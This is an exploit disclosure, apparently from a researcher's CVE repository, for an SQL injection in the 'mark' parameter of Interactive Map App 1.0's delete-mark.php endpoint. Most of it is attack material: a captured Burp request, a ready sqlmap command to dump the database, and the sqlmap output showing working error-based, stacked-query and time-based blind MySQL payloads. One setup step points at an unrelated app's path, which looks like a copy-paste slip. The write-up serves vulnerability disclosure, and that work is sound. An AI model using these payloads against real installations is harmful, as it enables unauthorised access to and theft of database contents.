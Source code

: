 # Interactive Map App - SQL Injection
+ **Exploit Title:** Interactive Map App - SQL Injection
+ **Date:** 2024-10-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17354/interactive-map-markers-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17354&title=Interactive+Map+with+Marker+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
İnteractive Map App  1.0 allows SQL Injection via the 'mark' parameter at "http://localhost/interactive-map-marker/endpoint/delete-mark.php?mark=7". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/daily-expenses-monitoring-app/"
+ Click the delete button in marked locations
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /interactive-map-marker/endpoint/delete-mark.php?mark=7 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'mark' parameter to dump the database.
```
sqlmap -r r.txt -p mark --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: mark (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: mark=7' AND EXTRACTVALUE(9267,CONCAT(0x5c,0x716a7a6a71,(SELECT (ELT(9267=9267,1))),0x71767a7171))-- oYuy

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: mark=7';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: mark=7' AND (SELECT 3083 FROM (SELECT(SLEEP(5)))SmNM)-- VjjM
---
[18:53:21] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:53:22] [INFO] fetching current database
[18:53:22] [INFO] retrieved: 'map_mark_db'
current database: 'map_mark_db'
```
+ current database: `map_mark_db`

![Ekran görüntüsü 2024-05-15 035725](https://github.com/BurakSevben/CVEs/assets/117217689/97c0d0cf-85b6-458c-8489-4be4ee19a783)
